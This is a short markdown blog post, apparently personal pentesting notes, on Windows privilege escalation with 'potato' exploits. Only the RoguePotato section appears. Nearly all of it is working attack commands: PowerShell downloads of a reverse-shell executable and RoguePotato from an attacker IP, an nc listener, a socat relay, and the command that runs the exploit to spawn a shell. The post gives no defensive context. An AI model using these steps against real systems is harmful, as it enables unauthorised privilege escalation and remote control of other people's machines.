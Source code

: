 ```yaml
---
layout: post
title: Potatoes
titledate: 10/17/23
tags: ["infosec","offsec","potatoes", "privesc", "powershell"]
---
```


There are many potatoes that can be used for privesc, and i'll include how i've used them below

#### rogue

i copy the potato along with a reverse shell to the target exec directory

    PS> iwr -uri http://192.168.45.215:8000/rs443.exe -Outfile rs443.exe
    PS> iwr -uri http://192.168.45.215:8000/RoguePotato.exe -Outfile rogue.exe

open up a nc listener

    nc -nlvp 443

    socat tcp-listen:135,reuseaddr,fork tcp:192.168.221.247:9999

on the target shell

    .\rogue.exe -r 192.168.45.215 -e "C:\Users\jim\Downloads\rs443.exe" -l 9999
